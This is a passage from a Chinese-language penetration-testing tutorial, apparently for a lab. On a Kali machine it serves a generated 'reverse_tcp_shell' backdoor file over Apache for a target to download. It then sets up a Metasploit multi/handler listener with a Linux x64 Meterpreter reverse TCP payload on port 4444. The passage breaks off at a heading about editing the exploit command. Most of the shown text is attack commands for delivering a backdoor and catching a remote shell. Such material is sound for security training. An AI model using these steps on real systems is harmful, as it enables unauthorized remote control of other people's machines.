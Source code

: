 > 将生成的文件放至 /var/www/html/reverse_tcp_shell 确保 目标机能访问到（不适用于外网）

启动 web 服务

```
┌──(root㉿kali)-[~]
└─# systemctl start apache2.service
```

确认文件

```
┌──(root㉿kali)-[~]
└─# ls /var/www/html/
index.html  index.nginx-debian.html  reverse_tcp_shell
```

启动 msf

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

加载监听模块

```
msf6 > use exploit/multi/handler
```

显示 handler 选项

```
msf6 exploit(multi/handler) > show options
```

设置 payload

```
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter_reverse_tcp
```

> 要与后门使用的 payload 一致

设置监听主机

```
msf6 exploit(multi/handler) > set lhost kali.local
```

设置监听端口

```
msf6 exploit(multi/handler) > set lport 4444
```

运行

```
msf6 exploit(multi/handler) > run
```

编辑漏洞命令
